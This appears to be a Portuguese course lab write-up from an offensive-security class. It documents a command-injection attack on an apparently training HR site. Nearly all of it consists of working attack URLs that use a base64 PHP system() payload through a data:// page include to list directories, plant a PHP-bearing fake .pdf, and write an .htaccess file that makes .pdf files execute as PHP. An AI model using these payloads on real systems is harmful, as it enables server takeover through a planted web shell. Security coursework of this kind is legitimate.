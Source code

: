 # 🔍 Exploração do Site — 👨‍🔬 Penetratium ☢️ - 🧬 Team 📡

## 🔗 Materia Segurança Ofensiva 📕

- 👨‍🏫 **Professor:** JPGress
- 🔍 **Tipo:** Comand Injection

---

## 📂 Descoberta do Banco de Dados  

Foi identificado o diretório da aplicação que armazena os **uploads de currículos**.  
Com isso, é possível enviar arquivos maliciosos (.pdf) e executá-los no servidor.  

🔗 Teste inicial:  /var/www/html/uploads
```
http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls%20-la%20/var/www/html/uploads
```

📌 Confirmação: Banco de dados e diretório de uploads identificado.  ( aceita somente arquivos .pdf)

---

## 📤 Upload de Arquivo TESTE(.pdf)

Comando para envio do arquivo TESTE:  
```
http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=echo%20%27%25PDF-1.4%0A%25%E2%E3%CF%D3%0A%0A%3C?php%20echo%20%22TESTE%20FUNCIONOU%22%3B%20%3F%3E%27%20%3E%20%2Fvar%2Fwww%2Fhtml%2Fuploads%2Fteste.pdf
```

📌 Verificação:  
🔗 [http://rh.businesscorp.com.br/uploads/teste.pdf](http://rh.businesscorp.com.br/uploads/teste.pdf)  

<p align="center">
  <img width="477" height="83" alt="image" src="https://github.com/user-attachments/assets/16a55f59-ce69-440a-b049-861819f3f9fe" />
</p>

---

## ⚙️ Criação do `.htaccess`  

Arquivo necessário para permitir a execução de **.pdf** como PHP:  

```
http://rh.businesscorp.com.br/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=echo%20%27AddType%20application%2Fx-httpd-php%20.pdf%27%20>%20%2Fvar%2Fwww%2Fhtml%2Fuploads%2F.htaccess
```
